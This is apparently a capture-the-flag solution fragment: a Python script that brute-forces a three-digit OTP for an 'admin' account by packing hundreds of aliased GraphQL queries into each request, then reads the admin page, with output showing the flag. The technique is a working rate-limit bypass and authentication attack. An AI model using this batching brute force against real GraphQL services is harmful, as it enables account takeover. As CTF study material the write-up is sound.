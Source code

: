 ```python


alias_names = [s for s in itertools.islice(generate_strings(), 1000)]
# generate ["a", "b", ... , "aa", "ab", ...]


def main():
    offset = 250
    for i in range(40):
        for n in range(0, 999, offset):

            query = ""
            query += "query myQuery($u:String!){"

            for j, otp in enumerate(range(n, min(n + offset, 999))):
                query += f'{alias_names[j]}:otp(u:$u,i:{i},otp:"{otp:03}")'

            query += "}"

            resp = s.post(
                f"{BASE_URL}/graphql?query={query}",
                json={"variables": {"u": "admin"}},
            )

            if "OK !!!" in resp.text:
                break

    resp = s.get(f"{BASE_URL}/Admin")
    print(resp.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
LINECTF{db37c207abbc5f2863be4667129f70e0}
```
